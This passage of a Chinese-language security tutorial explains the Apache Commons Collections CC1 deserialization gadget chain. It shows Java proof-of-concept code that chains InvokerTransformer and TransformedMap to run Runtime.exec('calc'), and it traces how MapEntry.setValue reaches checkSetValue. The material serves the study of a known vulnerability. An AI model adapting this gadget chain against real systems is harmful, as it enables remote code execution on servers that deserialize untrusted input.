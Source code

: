 ```

    }
}
```

<img width="1032" alt="image" src="https://user-images.githubusercontent.com/84888757/204719368-d909d191-ef1c-421e-860a-5b4258b7fbd8.png">

上面那是把`key`赋值为`Runtime.getRuntime()`，由于后面会发现用到`setValue`方法，所以这里应该改成把`value`赋值为`Runtime.getRuntime()`：

```
package org.vulhub;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.util.HashMap;
import java.util.Map;

public class CC1_1 {
    public static void main(String[] args) throws Exception{
        InvokerTransformer exec = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
//        exec.transform(Runtime.getRuntime());

        Map map = new HashMap();
        // 调用TransformedMap.decorate实例化TransformedMap
        Map tansformedMap = TransformedMap.decorate(map, null, exec);
        tansformedMap.put(1,Runtime.getRuntime());
        //tansformedMap.put(Runtime.getRuntime(),1);



    }
}
```
<div align=center><img width="1039" alt="image" src="https://user-images.githubusercontent.com/84888757/204719471-6495525d-14f4-4bd6-91f6-930f09396218.png" /></div>


#### 2.2.2 MapEntry 的 setValue()  

接下来我们就要找哪个类的方法中调用到了 `TransformedMap` 的这三个方法，其中 `transformkey()`和 `transformValue()`只在本类中进行了调用，`checkSetValue()`方法只在抽象类 `AbstractInputCheckedMapDecorator` 的静态内部类 `MapEntry` 的 `setValue()`方法中进行了调用： 

![image](https://user-images.githubusercontent.com/84888757/204720275-5ab73c77-b5b1-4d80-a635-346d1367c852.png)

我们首先发现，`AbstractInputCheckedMapDecorator` 是 `TransformedMap` 的父类，子类 `TransformedMap` 在访问权限允许的情况下，可以直接访问父类`AbstractInputCheckedMapDecorator`的`Field`和方法，包括`setValue`方法，而且子类`TransformedMap`自己也没有重写`setValue`方法，所以遍历`TransformedMap`的`Entry`并调用`setValue`方法，就相当于直接调用到父类`AbstractInputCheckedMapDecorator`中静态类`MapEntry`的`setValue`方法。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/204720488-76427863-afdb-4446-9fd5-20f92c3265bf.png" /></div>
